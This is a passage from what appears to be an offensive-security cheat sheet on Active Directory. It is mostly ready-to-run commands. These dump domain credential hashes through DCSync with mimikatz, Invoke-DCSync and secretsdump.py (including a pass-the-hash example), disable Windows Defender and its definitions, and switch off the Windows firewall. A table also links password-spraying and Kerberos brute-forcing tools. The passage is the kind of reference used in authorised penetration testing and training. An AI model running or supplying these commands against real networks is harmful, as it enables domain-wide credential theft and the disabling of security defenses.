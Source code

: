 ### DC Sync

```bash
#####
lsadump::dcsync /domain:domain /all /csv
lsadump::dcsync /user:krbtgt

#####
https://gist.github.com/monoxgas/9d238accd969550136db
powershell.exe -c "Import-Module .\Invoke-DCSync.ps1; Invoke-DCSync -PWDumpFormat"

#####
python secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:0f49aab58dd8fb314e268c4c6a65dfc9 -just-dc PENTESTLAB/dc\$@10.0.0.1
python secretsdump.py -system /tmp/SYSTEM -ntds /tmp/ntds.dit LOCAL
```

### Tools
| Command  | Descriptions |
| -------- | ------------ |
| [enum4linux ](https://github.com/CiscoCXSecurity/enum4linux) | enum4Linux is a Linux alternative to enum.exe for enumerating data from Windows and Samba hosts |
| [windapsearch](https://github.com/ropnop/windapsearch) | Python script to enumerate users, groups and computers from a Windows domain through LDAP queries |
| [ad-ldap-enum](https://github.com/CroweCybersecurity/ad-ldap-enum) | An LDAP based Active Directory user and group enumeration tool |
| [DomainPasswordSpray](https://github.com/dafthack/DomainPasswordSpray) | DomainPasswordSpray is a tool written in PowerShell to perform a password spray attack against users of a domain. |
| [Kerbrute](https://github.com/ropnop/kerbrute) | A tool to perform Kerberos pre-auth bruteforcing |
| [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) | Performs various techniques to dump hashes from the remote machine without executing any agent there.|

## Bypass-Evasion Techniques

### Windows Defender

```bash
sc config WinDefend start= disabled
sc stop WinDefend
# Powershell
Set-MpPreference -DisableRealtimeMonitoring $true
# Remove definitions
"%Program Files%\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All
```

### Firewall

```bash
Netsh Advfirewall show allprofiles
NetSh Advfirewall set allprofiles state off
```

### Ip Whitelisting
